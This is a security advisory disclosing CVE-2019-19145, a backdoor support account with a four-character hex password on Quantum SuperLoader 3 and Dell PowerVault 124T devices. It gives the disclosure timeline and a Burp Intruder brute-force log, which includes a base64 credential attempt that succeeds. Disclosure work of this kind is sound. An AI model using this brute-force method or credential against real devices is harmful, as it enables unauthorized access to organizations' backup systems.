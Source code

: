 # Quantum SuperLoader - Backdoor Support Account Access


## Vendors

* Quantum Corporation
* Dell Inc.

## Affected Products

* Quantum SuperLoader 3 (V94.0 005E.0h)
* Dell PowerVault 124T

Other products and versions may also be affected.

## Summary

The Quantum SuperLoader 3 and Dell PowerVault 124T devices can be accessed using a backdoor support account ("fa") that
has a four-character password. The password can be provided by vendor support and is based on a five-digit challenge
code displayed in the telnet banner, HTTP authentication realm, and front panel. This four-character password 
consists of lower case hexadecimal and can be brute forced or derived based on the challenge algorithm.

This issue may affect a wider range of products and firmware versions.


## Mitigation

* No mitigations are known at this time.


## Credit

These issues were found by Stephen Breen and HD Moore of Atredis Partners


## References

 * CVE-2019-19145
 * https://www.dell.com/community/PowerVault/PowerVault-124T-Username-Password/td-p/3004075

## Report Timeline

2019-08-22: Atredis Partners provided a copy of this advisory by email to Quantum Corporation and Dell Inc.

2019-09-10: Quantum confirmed that this support account is undocumented, but may be widely known.

2019-10-08: Atredis Partners provided a copy of this advisory to CERT/CC.

2019-11-05: Dell confirmed that the only affected Dell product is the PowerVault 124T.

2019-11-21: Atredis Partners published this advisory.


## Technical Details

The backdoor support password can be guessed using a maximum of 65,536 requests to the web interface. The password range consists of "0000" to "ffff" (0001, 0002, etc).

An example session using Burp Intruder is shown below:

```
Request,Payload,Status,Error,Timeout,Length,Comment
336,ZmE6ZjQxMA==,200,false,false,25911,
1,ZmE6MDAwMA==,401,false,false,129,
3,ZmE6MjAwMA==,401,false,false,129,
2,ZmE6MTAwMA==,401,false,false,129,
4,ZmE6MzAwMA==,401,false,false,129,
5,ZmE6NDAwMA==,401,false,false,129,
6,ZmE6NTAwMA==,401,false,false,129,
7,ZmE6NjAwMA==,401,false,false,129,
8,ZmE6NzAwMA==,401,false,false,129,
9,ZmE6ODAwMA==,401,false,false,129,
10,ZmE6OTAwMA==,401,false,false,129,
11,ZmE6YTAwMA==,401,false,false,129,
12,ZmE6YjAwMA==,401,false,false,129,
13,ZmE6YzAwMA==,401,false,false,129,
```
